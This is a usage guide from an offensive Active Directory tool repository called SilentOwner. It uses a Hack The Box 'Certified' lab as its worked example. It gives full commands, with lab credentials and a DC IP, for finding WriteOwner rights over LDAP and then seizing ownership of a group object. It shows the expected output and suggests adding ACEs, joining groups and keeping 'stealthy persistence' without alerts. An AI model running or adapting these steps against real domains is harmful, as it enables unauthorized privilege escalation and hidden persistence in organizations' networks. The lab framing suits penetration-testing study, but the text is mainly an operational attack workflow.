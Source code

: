 # 🧠 USAGE-STRATEGY.md — Maximize Privilege with Certipy-ACL + SilentOwner

SilentOwner is most effective **after** identifying a target object where you hold **WriteOwner** permissions. To achieve this, we recommend pairing it with [`certipy-acl`](https://github.com/xploitnik/certipy-acl), a stealth LDAP enumeration tool that filters ACEs by SID — letting you silently map real control paths without scanning noise.

---

## 🔗 Strategic Flow

```text
🎯 Start with low-priv LDAP creds → Enumerate SIDs → Find WriteOwner → Take Ownership → Inject ACEs (optional)
```

---

## 🔍 Step 1 — Use Certipy-ACL to Enumerate Real Permissions

(Certified HTB Case Study)

Start with any valid domain user:

```bash
python3 -m certipy_tool \
  -u 'judith.mader@certified.htb' \
  -p 'judith09' \
  -target certified.htb \
  -dc-ip 10.129.128.69 \
  --resolve-sids \
  --filter-sid S-1-5-21-729746778-2675978091-3820388244-1103
```

Look for entries like:

```text
[ACL] CN=Management,CN=Users,DC=certified,DC=htb
  [ACE] Type: ACCESS_ALLOWED, Mask: 0x80000, SID: S-1-5-21-...-1103
    [+] WriteOwner
```

This tells you:
- `judith.mader@certified.htb` has **WriteOwner** over the `Management` group.
- You can now proceed to take full ownership.

---

## 🛡️ Step 2 — Run SilentOwner to Assume Ownership

Once you find a target object, silently take over: 

```bash
python3 SilentOwner.py \
  --dc-ip 10.129.128.69 \
  -u judith.mader@certified.htb \
  -p 'judith09' \
  --domain certified.htb \
  --target-dn 'CN=Management,CN=Users,DC=certified,DC=htb' \
  --new-owner-sid 'S-1-5-21-729746778-2675978091-3820388244-1103'
```

Expected output: Once you find a target object, silently take over: 

```text
[+] LDAP bind successful.
[DEBUG] Raw sd['OwnerSid']: b'...'
[+] Current owner: S-1-5-21-...-500
[+] Replacing owner with: S-1-5-21-...-1103
[✅] Ownership of CN=Management,CN=Users,DC=certified,DC=htb successfully changed
```

---

## 🔁 Step 3 — Optional Post-Ownership Control

Once you’re the owner of the object, you can:

- Inject custom ACEs (e.g., grant yourself `GenericAll`, `WriteDACL`, or `WriteMember`)
- Silently add yourself to groups
- Maintain stealthy persistence

> 🧪 A future companion script `inject_ace.py` will let you do this in a surgical, fully LDAP-based way.

---

## 🧩 Real-World Flow: (Certified HTB Case Study)

```text 
judith.mader (SID: ...1103)
│
└── ✅ WriteOwner over:
    CN=Management (SID: ...1104)
    │
    └── ✅ GenericWrite over:
        CN=management_svc (SID: ...1105)
        │
        └── ✅ GenericAll over:
            CN=ca_operator (SID: ...1106)
```

You control the top of the chain (Management), and from there, you can pivot silently through multiple privilege levels using SID awareness.

---

## 🧠 Why This Strategy Works

- **No Shell Needed** — All actions are done over LDAP.
- **No Graph Noise** — Unlike BloodHound, you see *only what matters*.
- **SID Precision** — You control the logic. You control the chain.
- **Stealth** — No scanning. No alerts. Just privilege.

---

## 📁 Suggested Repo Structure

```
SilentOwner/
├── SilentOwner.py
├── README.md
├── USAGE-STRATEGY.md  ← you are here
├── requirements.txt
└── .gitignore
```

---

## 🔐 Built to Empower SIDs — And the People Who Know How to Use Them.

